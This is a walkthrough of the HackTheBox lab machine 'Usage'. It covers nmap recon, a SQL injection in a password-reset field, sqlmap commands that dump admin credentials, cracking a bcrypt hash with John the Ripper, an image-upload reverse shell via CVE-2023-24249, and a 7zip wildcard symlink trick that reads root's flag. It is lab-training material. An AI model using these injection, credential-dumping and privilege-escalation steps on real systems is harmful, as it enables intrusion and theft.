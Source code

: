 ```yaml
---
title: Usage
tags:
  - Linux
  - CVE
  - Wildcard
  - HackTheBox
  - Easy
---
```

![](Pasted%20image%2020240501234511.png)

## Reconnaissance

Firstly, I added the new host to my known ones:

```shell
sudo echo "10.10.11.18 usage.htb" | sudo tee -a /etc/hosts
```

Secondly, I started performing an `Nmap` scan with:

```shell
nmap -sC -T4 -p- usage.htb > sC.txt

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-01 22:05 CEST
Nmap scan report for usage.htb (10.10.11.18)
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http
|_http-title: Daily Blogs

Nmap done: 1 IP address (1 host up) scanned in 17.41 seconds
```

Then I tried to use dirsearch but found nothing interesting, so I decided to read the code. While doing this I visualized another domain: `admin.usage.htb`, 

![](Pasted%20image%2020240501234847.png)

so I added it to the known hosts:

```shell
sudo echo "10.10.11.18 admin.usage.htb" | sudo tee -a /etc/hosts
```

When I visited the new domain I found an admin login panel:

![](Pasted%20image%2020240501235015.png)

Then I tried to do a login bypass but I didn't get anything 🤕.
After searching quite a lot I tried the "Reset password" option of the main domain (having created an account before doing it) and then I performed manual sql injections. The one successful was:

```sql
example@example.test' AND 1==1;--
```

So I captured the request with **Burpsuite**:

```html
POST /forget-password HTTP/1.1
Host: usage.htb
Content-Length: 96
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://usage.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en;q=0.9
Referer: http://usage.htb/forget-password
Accept-Encoding: gzip, deflate, br
Cookie: XSRF-TOKEN=eyJpdiI6IkpVektaMURBeHJia1ZZeVpCdDhsTkE9PSIsInZhbHVlIjoiTmhkVU5lRm9zSkFNNTNGQzlxRDZMY2ZNTytBNEVaeHk0S3FNdzd4NkhqWjVlTDRDQUpJZ3lCUmRDQVFtN0pkN3p2Y2QwQklmRC81a3FyRWw3SG9ibllmZUtORHFMRHl4RkljK1doK3pkd1RCOG1UNkZkWDFKbUhBM01mcWYyWEoiLCJtYWMiOiJjMmY3YmJhYjI0ZTZhMjgwYzVkZmNhZmE0NTQyMjY5MGIwMWFmOWVlMGY3N2ExNDY5YzA1N2ZiOGM5YWU2YzY5IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IkUvOVFmWllQZmhhTzdiS3ZSalMzM0E9PSIsInZhbHVlIjoiUFgwV0dqN0h2aWNGczViZmRDU08vZkNMOERnRUZuQ2RLaEd5REJUZGNxaVVzR1lqOWt2MnhDTCtHd29qNDY2dU10R3YvbStRUmV2RitpcE5JNk5xbVB0Vnd2WHNlWjBiV3p1QW4zc3BPSlB1WnZuNVFsZXh1cXNwNUpjeDRMU28iLCJtYWMiOiI3MmQ3NWI0YjhmMzQ4NTFjM2Q5M2M5ODBhMjNlZjI4M2M0MmI2OWI2ZjEzNjk4MDIzYmE4ZGJmYjQ4Mjc3MWNjIiwidGFnIjoiIn0%3D
Connection: close

_token=VKIqVeHHgY3azyNB5HmGBngdHk5IPZgiB5srIcBU&email=example@example.test
```

and decided to use SQLMap to automate the process:
- Visit [SQLMap 🪲](/notes/tools/Sqlmap.md) note for more commands
- As I know that AND worked, I used BUT technique

```shell
sqlmap -r request.txt -p 'email' --dbms=mysql --level=3 --risk=3 --batch --technique=BUT --dbs --dump --threads 3

sqlmap -r request.txt  -p 'email' --dbms=mysql --level=3 --risk=3 --technique=BUT --batch --threads 3 -D usage_blog -T admin_users  --dump

sqlmap -r request.txt  -p 'email' --dbms=mysql --level=3 --risk=3 --technique=BUT --batch --threads 3 -D usage_blog -T admin_users -C name,username,password --dump
```

 I obtained this creds: `admin:$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2`, so it was time for brute forcing.

First I checked what kind of hash was it in [hashes.com](https://hashes.com/en/tools/hash_identifier)

Then I decided to use John the Ripper for this:

```shell
john hash.txt --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt
```

After gaining the password, I logged into the initial admin domain:

![](Pasted%20image%2020240502000034.png)

## Weaponization

After a bit of research I found the [CVE-2023-24249](https://flyd.uk/post/cve-2023-24249/

## Exploitation

First, I created in my local machine an image with a php code inside of it like:
- Check [Reverse shells 👾](/notes/reverse_shells.md) for the shell

```shell
echo "shell..." > shell.jpg
```

Then I went to the `Administrator >> Setting` at top right on the screen

![](Pasted%20image%2020240502000359.png)

Now what I did was to catch the request of changing the image with burpsuite by the one I previously created and modified the following:

![](Pasted%20image%2020240502000602.png)

![](Pasted%20image%2020240502000625.png)

And then I got the reverse shell :D


### User flag

```shell
cat /home/dash/user.txt
XXXXXXXXXXXXXXXXXXXXXX
```

## Privilege Escalation

First of all, I pivoted to the other user account, `xander`. To do it, I observed the hidden file `.monitrc` and found the credentials of `xander`.

After loggin as him, I performed:

```shell
sudo -l

Matching Defaults entries for xander on usage:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```

So I executed the program and, after arriving to the conclusion of being a 7zip performing a backup using a wildcard, I decided to use this in my favour:

```shell
cd /var/www/html/
touch '@root.txt'
ln -s -r /root/root.txt root.txt
sudo /usr/bin/usage_management # and select the 1st option
```

### Root flag

was obtained in the previous exit of the program

==Machine pwned==

